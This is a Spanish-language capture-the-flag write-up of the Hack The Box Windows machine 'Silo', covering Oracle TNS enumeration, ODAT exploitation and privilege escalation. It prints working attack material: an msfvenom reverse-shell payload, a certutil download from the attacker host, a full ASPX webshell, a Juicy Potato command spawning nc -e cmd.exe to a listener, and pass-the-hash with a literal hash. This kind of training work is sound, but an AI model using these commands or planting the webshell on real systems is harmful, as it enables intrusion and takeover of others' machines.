


# Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Silo](https://www.hackthebox.com/home/machines/profile/131) |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad |  |
| Puntos | 30 |
| Creadores | [egre55](https://www.hackthebox.com/home/users/profile/1190) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ sudo nmap -sS --min-rate 5000 -vvv -open -p- -n -Pn -oG nmap/all_ports_ss $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-23 23:09 EDT
Initiating SYN Stealth Scan at 23:09
Scanning 10.10.10.82 [65535 ports]
Discovered open port 80/tcp on 10.10.10.82
Discovered open port 445/tcp on 10.10.10.82
Discovered open port 139/tcp on 10.10.10.82
Discovered open port 135/tcp on 10.10.10.82
Discovered open port 49161/tcp on 10.10.10.82
Discovered open port 49155/tcp on 10.10.10.82
Discovered open port 49162/tcp on 10.10.10.82
Discovered open port 49154/tcp on 10.10.10.82
Discovered open port 49160/tcp on 10.10.10.82
Discovered open port 47001/tcp on 10.10.10.82
Discovered open port 49153/tcp on 10.10.10.82
Discovered open port 49159/tcp on 10.10.10.82
Discovered open port 49152/tcp on 10.10.10.82
Discovered open port 5985/tcp on 10.10.10.82
Discovered open port 1521/tcp on 10.10.10.82
Completed SYN Stealth Scan at 23:09, 13.20s elapsed (65535 total ports)
Nmap scan report for 10.10.10.82
Host is up, received user-set (0.064s latency).
Scanned at 2022-05-23 23:09:27 EDT for 14s
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
1521/tcp  open  oracle       syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49159/tcp open  unknown      syn-ack ttl 127
49160/tcp open  unknown      syn-ack ttl 127
49161/tcp open  unknown      syn-ack ttl 127
49162/tcp open  unknown      syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.27 seconds
           Raw packets sent: 65634 (2.888MB) | Rcvd: 65535 (2.621MB)
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-23 23:11 EDT
Nmap scan report for 10.10.10.82
Host is up (0.065s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.0.2:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-05-24T03:13:17
|_  start_date: 2022-05-24T02:53:36
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.10 seconds
```

# Enumeración

## Servicios

### Microsoft IIS - 80

Se expone la página por default de Microsoft IIS y al hacer uso de herramientas de fuzzing no se tuvo éxito al buscar algún directorio relevante, sin embargo, para el método intencionado de resolución es importante tener a consideración.


### Oracle TNS Listener - 1521

Después de revisar acerca de la [metodología empleada](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener) para este servicio, se buscó obtener información relevante respecto la versión, estatus, etc, haciendo uso de `tnscmd10g` sin éxito alguno.

Posteriormente, en la metodología se mencionan los SID (Identificadores de Servicio, esencialmente pueden ser reconocidos como los nombres de las bases de datos), los cuales dependiendo de la instalación realizada pueden existir uno o más SIDs por defecto. Al no poder obtenerlos mediante `tnscmd10g`, se sugiere que realice fuerza bruta de los comúnes para identificar los existentes.

#### hydra

Haciendo uso de:

```bash
hydra -L content/sids-oracle.txt -s 1521 10.10.10.82 oracle-sid
```

Con el conjunto de diccionarios que ofrece [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener#what-is-a-sid) (el cual es un compendio de las listas de nmap y metasploit), se identificaron los SIDs:

- CLRExtProc.
- PLSExtProc.
- XE.


# Explotación

*Nota: Después de resolver la máquina se suele verificar el proceso con otras fuentes, identificando de esta manera que existen 2 caminos a resolver la máquina una intencionada y una no intencionada, una más directa por no decir fácil que la otra. Primero se expondrá el método por el cuál se resolvió inicialmente y posteriormente la resolución intencionada.*

## No intencionada

### Obtención de credenciales

#### Pasos previos | Preparación

Haciendo uso de [ODAT](https://github.com/quentinhardy/odat) se obtuvieron credenciales de un usuario disponible, por medio de un módulo que la herramienta ofrece. Inicialmente se requiere la instalación descrita en el repositorio aunque por lo que respecta en kali, basta con clonar el repositorio.

#### Ejecución

Como parte inicial se ejecutó un "Ave María" invocando todos los módulos que la herramienta ofrece para visualizar si de esta manera se identificaba algo que pudiera servir, para ello, la herramienta solicita un SID válido a ocupar, siendo `XE` el SID con información útil (identificándolo después de ejecutar el comando con cada uno de los SIDs). Haciendo uso de:

```bash
./odat.py all -s 10.10.10.82 -p 1521 -d XE
```


Posteriormente se identificó que el módulo encargado de hacer este proceso es `passwordguesser` el cual simplemente sustituiría a `all` del comando.

### RCE

#### Pasos previos | Preparación

Posteriormente, al revisar los módulos disponibles se identificó que tanto el módulo `dbmsscheduler` como el módulo `externaltable` ofrecen capacidad de ejecutar comandos. Que al intentar usarlos no se permitió su ejecución debido a la falta de privilegios, sin embargo, se encontró que mediante la bandera `--sysdba` existe la posibilidad de "escalar" estos privilegios o impersonar un rol superior al que se tenía.

#### Ejecución

Obteniendo así, una vez ejecutada la reverse shell, acceso directamente como administrador.

1. Creando un payload con:
   
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=1234 -f exe > pwn.exe
   ```

2. Descargándolo con:
   
   ```bash
   ./odat.py dbmsscheduler -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --exec "certutil.exe -f -urlcache -split http://10.10.14.16/pwn.exe c:\windows\temp\pwn.exe" --sysdba
   ```

3. Y ejecutándolo con:
   
   ```bash
   ./odat.py externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --exec "c:\windows\temp" "pwn.exe" --sysdba
   ```


## Intencionada

Si bien odat permite la lectura, escritura y ejecución de archivos, todo lo que realiza en estos procesos no resulta tan "transparente" por lo que para entender un poco acerca de Oracle se realizo parte del mismo proceso por medio de SQL directamente.

*Nota: Se da por hecho que se realizo el descubrimiento de los SIDs y de las credenciales válidas, dado que `scott:tiger` son credenciales por default.*

### RCE

#### Pasos previos | Preparación

Como parte de la [instalación de odat](https://github.com/quentinhardy/odat#installation-optional-for-development-version), se realiza la instalación del cliente sql para conectarse a la base de datos de Oracle.

Por lo que una vez instalado se permite la conexión al host por medio de:

```bash
sqlplus64 scott/tiger@10.10.10.82:1521/XE as sysdba
```


#### Ejecución

Oracle ocupa su propia sintaxis por lo que con el siguiente pedazo de código se buscó obtener el contenido del archivo por defecto del servidor. Buscando obtener respuesta por medio del prompt configurando primeramente `set serveroutput ON` para su visualización.

```sql
declare
    f utl_file.file_type;
    s varchar(200);
begin
    f := utl_file.fopen('/inetpub/wwwroot', 'iisstart.htm', 'R');
    utl_file.get_line(f,s);
    utl_file.fclose(f);
    dbms_output.put_line(s);
end;
```


Por otra parte se puede verificar que también exista la capacidad de escribir a un archivo, verificándolo con el siguiente segmento de código.

```sql
declare
    f utl_file.file_type;
    s varchar(5000) := 'Hello world';
begin
    f := utl_file.fopen('/inetpub/wwwroot', 'srrequiem.txt', 'W');
    utl_file.put_line(f,s);
    utl_file.fclose(f);
end;
```





Una vez validada la escritura, se abre la puerta a la creación de una reverse shell, el inconveniente es que debido al espacio limitado en las variables respecto a los caracteres no fue posible llevarlo a cabo, por lo que se optó por una webshell en su lugar.

Utilizando `/usr/share/webshells/aspx/cmdasp.aspx` eliminando estilos, comentarios y saltos de línea para reducir los caracteres se obtuvo ejecución en la máquina.

Código de página empleado:

```c#
<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>
```


# Post Explotación

## Enumeración

Se identificó que entre los privilegios disponibles del usuario obtenido se encuentra habilitado `SeImpersonatePrivilege` lo que lleva a un camino de escalación de privilegios por medio de Rotten o JuicyPotato.


Se identificó un archivo accesible en el escritorio de uno de los usuarios del sistema `c:\users\phineas\desktop\oracle issue.txt` el cual indica que se trata de un dumpeo de memoria del sistema.

Contenido:

```txt
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
£%Hm8646uC$
```

*Nota: Cabe recalcar que el caracter `£` puede que no se interprete correctamente si se optó por entablar una reverse shell, causando su omisión y por consiguiente, que a la hora de la descarga indique que la contraseña no es válida. Teniendo que realizar un procesado extra (ejemplo base64) para extraer su contenido. Accediendo al archivo por medio de la webshell no existió este problema*


## Escalación de privilegios

### Método 1 - Juicy Potato

Habiendo encontrado los privilegios relacionados con este método de escalación, sólo restaría probar su ejecución mediante el [binario](https://github.com/ohpe/juicy-potato/releases) y con las opciones utilizadas para entablar una reverse shell con permisos elevados `NT AUTHORITY\SYSTEM`. Ejecutando:

```bash
.\jp.exe -t * -l 1337 -p c:\windows\temp\nc.exe -a " -e cmd.exe 10.10.14.16 4321"
```


Con lo que respecta a los argumentos utilizados, el binario mismo da la descripción de cada uno de ellos.


Con lo que respecta a la práctica los argumentos `-t` y `-l` no representa algo sustancial el cambiar valores. Y en donde `-p` (programa a ejecutar) y `-a` (argumentos a utilizar por el programa señalado) se usaron a partir de las herramientas usadas en pasos anteriores.

### Método 2 - Memdump

Con la copia de memoria descargada, se puede hacer uso de [volatility](https://www.volatilityfoundation.org/releases) para analizarla. Buscando antes que todo un perfil acorde al perteneciente al dumpeo de memoria, por medio de:

```bash
./volatility_2.6_lin64_standalone -f /home/srrequiem/Documents/htb/windows/medium/silo/content/SILO-20180105-221806.dmp imageinfo
```

Teniendo en cuenta que debido al acceso previamente obtenido se puede buscar un perfil más adecuado.


Ejecutando `systeminfo` en la máquina se pueden comparar resultados, identificando el perfil `Win2012R2x64` como el más adecuado.


Haciendo uso del plugin `hashdump` se pueden obtener los hashes del sistema, exponiendo de esta manera una forma de acceder a la máquina como el usuario Administrator. Por medio de:

```bash
./volatility_2.6_lin64_standalone -f /home/srrequiem/Documents/htb/windows/medium/silo/content/SILO-20180105-221806.dmp --profile=Win2012R2x64 hashdump
```


Obteniendo acceso haciendo uso del hash con:

```bash
impacket-psexec Administrator@10.10.10.82 -hashes :9e730375b7cbcebf74ae46481e07b0c7
```


# Referencias

- [Hack Tricks - Pentesting Oracle TNS Listener](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener).
- [odat.py](https://github.com/quentinhardy/odat).
- [0xdf Write-up](https://0xdf.gitlab.io/2018/08/04/htb-silo.html).
- [Ippsec Walkthrough](https://www.youtube.com/watch?v=2c7SzNo9uoA).
- [PayloadAllTheThings - JuicyPotato](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges).
- [Binarios Juicy Potato](https://github.com/ohpe/juicy-potato/releases).
- [Releases Volatility](https://www.volatilityfoundation.org/releases).
- [Github Volatility](https://github.com/volatilityfoundation/volatility).